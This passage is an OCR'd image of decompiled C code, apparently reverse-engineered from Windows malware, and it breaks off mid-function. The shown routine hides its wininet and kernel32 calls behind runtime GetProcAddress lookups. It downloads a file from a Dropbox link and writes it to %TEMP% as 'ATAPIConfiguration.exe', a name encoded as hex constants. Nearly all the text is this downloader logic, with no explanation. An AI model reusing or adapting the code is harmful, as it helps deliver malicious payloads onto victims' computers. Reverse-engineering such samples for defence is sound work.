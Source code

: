 ```c
  }
  else {
    pHVar4 = GetModuleHandleW(L"wininet.dll");
    local_1c = GetProcAddress(pHVar4,"InternetConnectW");
    local_20 = (*local_1c)(local_18,L"dl.dropboxusercontent.com",0x1bb,0,0,3,0,1);
    if (local_20 == 0) {
      uVar3 = 0xe;
    }
    else {
      pHVar4 = GetModuleHandleW(L"wininet.dll");
      local_24 = GetProcAddress(pHVar4,"HttpOpenRequestW");
      local_28 = (*local_24)(local_20,&DAT_00413270,L"/s/uzu60whrg1spnyy/ATAPIConfiguration",0,0,0,
                             0x800000,1);
      if (local_28 == 0) {
        uVar3 = 0xe;
      }
      else {
        local_5c = 4;
        pHVar4 = GetModuleHandleW(L"wininet.dll");
        local_2c = GetProcAddress(pHVar4,"InternetQueryOptionW");
        iVar5 = (*local_2c)(local_28,0x1f,&local_58,&local_5c);
        if (iVar5 != 0) {
          pHVar4 = GetModuleHandleW(L"wininet.dll");
          local_30 = GetProcAddress(pHVar4,"InternetSetOptionW");
          local_58 = local_58 | 0x1180;
          (*local_30)(local_28,0x1f,&local_58,4);
        }
        pHVar4 = GetModuleHandleW(L"wininet.dll");
        local_34 = GetProcAddress(pHVar4,"HttpSendRequestA");
        local_38 = (*local_34)(local_28,0,0,0,0);
        local_3c = malloc(16000);
        memset(local_3c,0,16000);
        memset(DAT_00416028,0,0x1000);
        local_40 = getenv("TEMP");
        sVar6 = strlen(local_40);
        DAT_0041602c = (LPCSTR)malloc(sVar6 + 0x1000);
        strcpy(DAT_0041602c,local_40);
        uVar8 = 0xffffffff;
        pCVar9 = DAT_0041602c;
        do {
          if (uVar8 == 0) break;
          uVar8 = uVar8 - 1;
          cVar1 = *pCVar9;
          pCVar9 = pCVar9 + 1;
        } while (cVar1 != '\0');
        puVar7 = (undefined4 *)(DAT_0041602c + (~uVar8 - 1));
        *puVar7 = 0x4154415c;
        puVar7[1] = 0x6f434950;
        puVar7[2] = 0x6769666e;
        puVar7[3] = 0x74617275;
        puVar7[4] = 0x2e6e6f69;
        puVar7[5] = 0x657865;
        MultiByteToWideChar(0,0,DAT_0041602c,-1,DAT_00416028,0x1000);
        pHVar4 = GetModuleHandleW(L"kernel32.dll");
        local_44 = GetProcAddress(pHVar4,"CreateFileW");
        local_48 = (HANDLE)(*local_44)(DAT_00416028,0xc0000000,0,0,2,0x80,0);
        local_60 = 0;
        pHVar4 = GetModuleHandleW(L"wininet.dll");
        local_4c = GetProcAddress(pHVar4,"InternetReadFile");
        pHVar4 = GetModuleHandleW(L"kernel32.dll");
        local_50 = GetProcAddress(pHVar4,"WriteFile");
        if (local_38 == 0) {
          uVar3 = 0xe;
```